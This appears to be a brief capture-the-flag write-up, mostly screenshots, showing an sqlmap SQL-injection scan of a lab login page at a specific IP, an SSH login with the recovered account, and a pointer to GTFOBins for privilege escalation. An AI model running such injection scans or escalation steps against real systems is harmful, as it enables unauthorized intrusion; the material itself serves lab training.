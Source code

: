 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1cd983f3-c653-41a8-8d8b-5d49150b4814)

```
sqlmap -u "http://62.173.140.174:28780/login.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="username=josh&password=josh"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a790e58f-bb72-4d41-b696-8cf9bf7a49a6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97276906-bab9-41cb-be01-2b8c74af6ffe)

```
ssh josh@62.173.140.174 -p 28722
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/049dc3cc-7036-4389-bd55-55efc552cfca)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/40f0b247-4e36-430d-985f-6996fef542d5)

https://gtfobins.github.io/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/165b45bf-87df-4717-b18f-03a404263ce1)



